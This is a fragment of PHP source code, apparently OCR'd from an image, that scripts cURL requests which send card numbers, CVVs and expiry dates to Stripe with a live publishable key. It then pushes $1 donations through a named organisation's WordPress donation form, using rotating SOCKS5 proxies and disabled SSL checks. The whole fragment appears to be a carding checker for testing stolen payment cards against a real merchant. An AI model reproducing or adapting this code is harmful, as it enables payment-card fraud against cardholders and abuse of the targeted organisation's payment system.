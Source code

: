 curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&card[address_zip]='.$postcode.'&guid=32d2baf8-248f-4549-a569-2123b0d3dabeee3b2e&muid=f7c93eaf-d5d3-4cbf-88d2-8b715c2db9e09ca911&sid=3c50b7fb-7fc0-42f7-b5f8-b69795ce1c6b3be301&payment_user_agent=stripe.js%2F96835f1f%3B+stripe-js-v3%2F96835f1f&time_on_page=27568&referrer=https%3A%2F%2Fwww.optiparkindy.com%2F&key=pk_live_WLaietwK4F6nEnSXk9QCjfzI&pasted_fields=number');
$result2 = curl_exec($ch);
$message = trim(strip_tags(getstr($result2,'"message":"','"')));
$token = trim(strip_tags(getstr($result2,'"id": "','"')));

/////////////////=[3Req]=//////////////////

$ch = curl_init();
curl_setopt($ch, CURLOPT_PROXY, $socks5);
curl_setopt($ch, CURLOPT_PROXYUSERPWD, $rotate);
curl_setopt($ch, CURLOPT_URL, 'https://www.optiparkindy.com/wp-admin/admin-ajax.php');
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_POST, 1);
$headers = array();
$headers[] = 'authority: www.optiparkindy.com';
$headers[] = 'method: POST';
$headers[] = 'path: /wp-admin/admin-ajax.php';
$headers[] = 'scheme: https';
$headers[] = 'accept: */*';
$headers[] = 'accept-language: en-US,en;q=0.9';
$headers[] = 'content-type: application/x-www-form-urlencoded; charset=UTF-8';
$headers[] = 'cookie: __stripe_mid=f7c93eaf-d5d3-4cbf-88d2-8b715c2db9e09ca911; __stripe_sid=3c50b7fb-7fc0-42f7-b5f8-b69795ce1c6b3be301';
$headers[] = 'origin: https://www.optiparkindy.com';
$headers[] = 'referer: https://www.optiparkindy.com/donate/';
$headers[] = 'sec-fetch-dest: empty';
$headers[] = 'sec-fetch-mode: cors';
$headers[] = 'sec-fetch-site: same-origin';
$headers[] = 'user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.99 Safari/537.36';
$headers[] = 'x-requested-with: XMLHttpRequest';
curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_POSTFIELDS, 'action=ds_process_button&stripeToken='.$token.'&paymentMethodID='.$id.'&allData%5BbillingDetails%5D%5Bemail%5D='.$email.'&type=donation&amount=1&params%5Bvalue%5D=ds-1540813605391&params%5Bname%5D=Opti-Park&params%5Bamount%5D=MTAwMA%3D%3D&params%5Boriginal_amount%5D=1&params%5Bdescription%5D=Description&params%5Bpanellabel%5D=Confirm+payment&params%5Btype%5D=donation&params%5Bcoupon%5D=&params%5Bsetup_fee%5D=&params%5Bzero_decimal%5D=&params%5Bcapture%5D=1&params%5Bdisplay_amount%5D=1&params%5Bcurrency%5D=USD&params%5Blocale%5D=&params%5Bsuccess_query%5D=&params%5Berror_query%5D=&params%5Bsuccess_url%5D=&params%5Berror_url%5D=&params%5Bbutton_id%5D=DonateButton&params%5Bcustom_role%5D=&params%5Bbilling%5D=&params%5Bshipping%5D=&params%5Brememberme%5D=&params%5Bkey%5D=pk_live_WLaietwK4F6nEnSXk9QCjfzI&params%5Bcurrent_email_address%5D=&params%5Bajaxurl%5D=https%3A%2F%2Fwww.optiparkindy.com%2Fwp-admin%2Fadmin-ajax.php&params%5Bimage%5D=https%3A%2F%2Fwww.optiparkindy.com%2Fwp-content%2Fuploads%2F2018%2F01%2FOpti-Club-New-Logo-brightgreen-drop.png&params%5Binstance%5D=ds1540813605391&params%5Bds_nonce%5D=328bf54bcc&ds_nonce=328bf54bcc');
$result3 = curl_exec($ch);
$message = trim(strip_tags(getstr($result3,'"message":"','"')));
 